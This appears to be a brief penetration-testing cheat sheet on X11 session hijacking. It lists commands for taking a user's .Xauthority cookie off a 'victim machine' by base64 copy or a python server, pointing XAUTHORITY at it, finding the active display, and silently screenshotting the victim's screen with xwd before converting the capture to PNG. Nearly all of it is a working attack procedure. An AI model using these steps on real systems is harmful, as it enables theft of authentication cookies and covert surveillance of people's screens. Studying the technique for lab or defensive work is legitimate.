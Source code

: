 # X11

### Files present in home directory:

    .xsession, .Xauthority

### Check for the LightDM user in /etc/passwd for further confirmation.

### The presence of these files in a user's home directory might indicate that the user has already authenticated and possibly contain sensitive information to view.

## Steps:

#### 1) Transfer the .Xauthority file to our machine 

    cat .Xauthority | base64 
    
#### Then 

    echo 'BASE64_STRING' > /tmp/Xauthority 
    
#### or just transfer it via a python server.

#### 2) Set the cookie by pointing the environment variable to our cookie file

    export XAUTHORITY=/tmp/Xauthority 

#### 3) (Victim machine) Check which display the user we are trying to impersonate is using

    w 
    
#### 4) (Victim machine) Dumps an image of an x window, to get a screenshot in its current state.

    xwd 

### Example command: (-root: select root window, -screen: send GetImage request to root window, -silent: Do it silently, -display: specify the server to connect to)

#### 

    xwd -root -screen -silent -display :0 > /tmp/screen.xwd 

#### 5) Download the file from the victim host to our machine

#### 6) Convert to image format to view the screenshot

    convert /tmp/screen.xwd screen.png 
